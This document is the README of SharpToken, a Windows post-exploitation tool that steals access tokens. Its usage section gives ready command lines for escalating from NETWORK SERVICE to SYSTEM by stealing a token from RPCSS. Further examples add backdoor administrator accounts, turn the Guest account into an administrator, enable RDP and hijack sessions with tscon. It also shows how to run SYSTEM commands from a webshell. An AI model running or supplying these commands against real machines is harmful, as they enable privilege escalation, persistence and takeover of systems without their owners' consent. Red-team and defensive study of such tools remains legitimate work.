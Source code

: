 # SharpToken


NET version of incognito

![image](https://user-images.githubusercontent.com/43266206/188081018-8717b066-1143-48b8-b62b-31360316cce1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

If you are an NT AUTHORITY\NETWORK SERVICE user then you just need to add the bypass parameter to become an NT AUTHORIT\YSYSTEM
e.g.
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass


Usage:

SharpToken COMMAND arguments



COMMANDS:

        list_token [process pid]        [bypass]

        list_all_token [process pid] [bypass]

        add_user    <username> <password> [group] [domain] [bypass]

        enableUser <username> <NewPassword> [NewGroup] [bypass]

        delete_user <username> [domain] [bypass]

        execute <tokenUser> <commandLine> [Interactive] [bypass]

        enableRDP [bypass]

        tscon <targetSessionId> [sourceSessionId] [bypass]


example:
    SharpToken list_token
    SharpToken list_token bypass
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true bypass
    SharpToken tscon 1




```

## Elevated Permissions

In addition to the usual Token stealing privilege enhancement, SharpToken also supports obtaining Tokens with integrity through Bypass

If you are an NT AUTHORITY/NETWORK SERVICE user and you add the bypass parameter, SharpToken will steal System from RPCSS, that is, unconditional NT AUTHORITY\NETWORK SERVICE to NT AUTHORITY\SYSTEM 

![image](https://user-images.githubusercontent.com/43266206/205461409-0b17af46-00f5-4d68-9a16-a2edd76e67ab.png)


## ListToken

Enumerated information includes SID, LogonDomain, UserName, Session, LogonType, TokenType, TokenHandle (handle of Token after Duplicate), TargetProcessId (process from which Token originates), TargetProcessToken (handle of Token in source process), Groups (group in which Token user is located)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## Enumerate Tokens from the specified process

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## Get an interactive shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## Get command execution results (executed under webshell)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)

## Reference

https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html

https://github.com/decoder-it/NetworkServiceExploit
